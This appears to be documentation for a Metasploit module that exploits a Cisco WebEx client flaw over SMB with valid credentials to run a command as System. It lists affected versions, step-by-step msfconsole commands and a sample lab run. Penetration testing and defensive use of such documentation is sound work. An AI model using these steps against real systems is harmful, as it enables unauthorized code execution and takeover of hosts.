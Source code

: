 ## Description

  This module exploits a remote code execution vulnerability in Cisco's WebEx client software versions < v33.6.0.655
  By supplying valid login credentials to the target machine, a single command can be executed with System privileges.

## Vulnerable Application

  Cisco WebEx Client v33.3.8.7 and below

## Verification Steps

  Example steps in this format (is also in the PR):

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/admin/smb/webexec_command```
  4. Do: ```set RHOSTS <IP>```
  5. Do: ```set SMBUser <USERNAME>```
  6. Do: ```set SMBPass <PASSWORD>```
  7. Do: ```run```
  8. You should get output that verifies the execution of the command

## Options

  **FORCE_GUI**

  Uses WMIC to create a GUI

## Scenarios

### Tested on Cisco WebEx v33.3.8.7 on Windows 7 x64 and x86

  ```
  msf5 > use auxiliary/admin/smb/webexec_command 
  msf5 auxiliary(admin/smb/webexec_command) > set rhosts 192.168.37.136
  rhosts => 192.168.37.136
  msf5 auxiliary(admin/smb/webexec_command) > set smbuser a_user
  smbuser => a_user
  msf5 auxiliary(admin/smb/webexec_command) > set smbpass password
  smbpass => password
  msf5 auxiliary(admin/smb/webexec_command) > run

  [+] 192.168.37.136:445    - Command completed!
  [*] 192.168.37.136:445    - Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  msf5 auxiliary(admin/smb/webexec_command) > 
  ```
